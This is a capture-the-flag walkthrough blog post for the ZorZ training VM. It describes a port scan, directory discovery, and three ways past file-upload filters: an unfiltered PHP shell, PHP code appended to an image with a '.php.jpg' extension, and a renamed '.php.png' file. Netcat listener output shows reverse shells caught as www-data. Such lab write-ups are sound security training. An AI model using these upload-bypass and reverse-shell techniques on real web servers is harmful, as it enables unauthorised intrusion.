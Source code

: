 ```yaml
---
layout: blog_item
title: "Zorz Walkthrough"
date: 2024-02-01 11:00:10
author: Dhruv Ambaliya
description: 'Zorz - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

Welcome to the ZorZ VM Challenge

This machine will probably test your web app skills once again. There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge. Your goal is to successfully upload a webshell or malicious file to the server. If you can execute system commands on this box, thats good enough!!! I hope you have fun!

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.110

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/zorz/dirbuster.png)

## Level 1

The web application has no filter protection, so uploading a PHP shell is possible.

![uploader1](/img/blog/zorz/uploader1.png)

PHP Shell Upload:

![php shell upload](/img/blog/zorz/file-upload.png)

The location <code>/uploads2</code> was previously disclosed by **Dirbuster**, <code>/uploads1</code> was discovered manually (logical guess).

![php shell execution](/img/blog/zorz/uploads1.png)

Reverse shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443                               
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33115
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 16:21:31 up 1 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$

{% endhighlight %}

Level 1 complete.

## Level 2

The initial attempt to upload the previous shell failed with the error message:

![php shell upload fail](/img/blog/zorz/upload2-fail.png)

Several attempts were then made to upload shells with various extensions such as <code>shell.png.php</code> , <code>shell.php.png</code> etc to bypass the web application filtering, all attempts to bypassed the filtering failed.

### Burp Suite - PHP Shell Injection in an Image file

It was apparent the web application had a mechanism for image file validation, several attempts were made to inject the php shell code into the image file. The solution was to inject the code at the end of the image data.

The file extension also needed modifying to <code>.php.jpg</code>, this appeared to force the web server to process the file, likely due to poorly configured Apache MIME types.

![Burp Suite shell injection in an image](/img/blog/zorz/burp-php-shell-injection-in-an-image.png)

Image uploaded successfully.

![Shell Upload](/img/blog/zorz/uploaded-shell.png)

Execution of image from <code>/uploads2</code>

![upload dir](/img/blog/zorz/dir.png)

### Reverse Shell:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.111] 33118
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 17:02:32 up 42 min,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}

Level 2 complete.

## Level 3

Level 3 was beaten simply by renaming the php reverse shell to <code>php-reverse-shell.php.png</code>, this was enough to bypass the filtering.

![Level 3](/img/blog/zorz/level3.png)

An alternative solution would of been to use burp to upload the file + change the content type.

## Flag

{% highlight bash %}

$ cd l337saucel337
$ ls
SECRETFILE
$ cat SE
cat: SE: No such file or directory
$ cat SECRETFILE
Great job so far. This box has 3 uploaders.

The first 2 are pure php, the last one is php w/jquery.

To get credit for this challenge, please submit a write-up or instructions
on how you compromised the uploader or uploaders. If you solve 1, 2, or all
of the uploader challenges, feel free to shoot me an email and let me know!

Thanks for playing!
http://www.top-hat-sec.com
$

{% endhighlight %}

Level 3 complete.

Thanks for the VM :)

